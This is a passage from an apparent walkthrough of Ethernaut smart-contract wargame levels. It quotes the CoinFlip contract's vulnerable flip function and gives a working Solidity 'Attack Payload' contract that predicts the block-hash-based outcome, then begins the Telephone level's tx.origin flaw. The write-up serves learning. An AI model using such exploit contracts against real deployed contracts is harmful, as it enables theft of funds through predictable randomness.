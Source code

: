Tasks: 
- This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

**Solution:** \
Vulnerable Code: 
```
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```

Attack Payload:
```
contract Attack {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack(CoinFlip coinFlip) public {

    uint256 guess1 = uint256(blockhash(block.number - 1));
    uint256 guess = uint256(guess1/FACTOR);
    bool _guess = guess == 1 ? true : false;
    coinFlip.flip(_guess);

    }
}
```
We can win this unlimite time by just mimicing the checker functions of `flip` function

# 4. [Challenge 4: Telephone](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

Tasks: 
- Claim ownership of the contract below to complete this level.

**Solution:** \
Vulnerable Code:
```
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
```
